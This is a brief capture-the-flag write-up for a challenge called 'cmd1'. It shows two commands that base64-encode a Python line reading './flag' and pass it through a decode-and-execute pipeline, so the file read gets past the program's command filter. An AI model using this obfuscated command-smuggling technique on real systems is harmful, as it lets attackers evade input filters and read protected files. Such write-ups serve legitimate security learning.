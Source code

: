 # `cmd1` Solution

First I:

    base64 read.py | python -c "import sys;print 'echo %s | base64 -d | python' % sys.stdin.read().replace('\n', '')"

end then:

    ./cmd1 "echo CnByaW50IG9wZW4oIi4vZmxhZyIsICJyIikucmVhZCgp | /usr/bin/base64 -d | /usr/bin/python"